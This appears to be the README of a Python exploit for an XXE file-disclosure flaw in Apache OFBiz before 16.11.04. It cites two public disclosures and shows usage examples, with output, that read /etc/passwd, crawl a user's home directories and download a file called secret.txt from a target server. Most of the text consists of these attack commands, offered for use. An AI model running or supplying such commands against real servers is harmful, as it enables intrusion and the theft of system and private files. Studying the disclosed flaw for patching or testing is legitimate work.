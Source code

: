 # Apache OFBiz XXE
XXE injection (file disclosure) exploit for Apache OFBiz &lt; 16.11.04

## Information
Apache OFBiz, before version 16.11.04, contains two distinct XXE injection vulnerabilities. The public disclosures for each vulnerability can be found below:

* [1] https://seclists.org/oss-sec/2018/q4/12
* [2] https://seclists.org/oss-sec/2018/q4/13

This exploit targets the vulnerability disclosed in link 1. Although this vulnerability was not assigned a CVE (the root cause lies in an outdated library), it is easier to exploit than the vulnerability disclosed in link 2 (CVE-2018-8033), which requires hosting an external DTD that the vulnerable server must reference in each request.

# Usage
### Display a single file
```
$ python exploit.py -u https://localhost:8443 -f /etc/passwd
```
### Crawl through directories
```
$ python exploit.py -u https://localhost:8443 -c /home/bob

[*] DIR: /home/bob
[*] DIR: /home/bob/docs
[*] FILE: /home/bob/docs/proposal.docx
[*] DIR: /home/bob/stuff
[*] DIR: /home/bob/stuff/more-stuff
[*] FILE: /home/bob/stuff/more-stuff/file2.txt
[*] FILE: /home/bob/stuff/more-stuff/secret.txt
[*] FILE: /home/bob/stuff/file3.txt
[*] FILE: /home/bob/file.txt
```
### Download a single file
```
$ python exploit.py -u https://localhost:8443 -f /home/bob/stuff/more-stuff/secret.txt -o ~/local/
$ ls ~/local/
home--bob--stuff--more-stuff--secret.txt
```
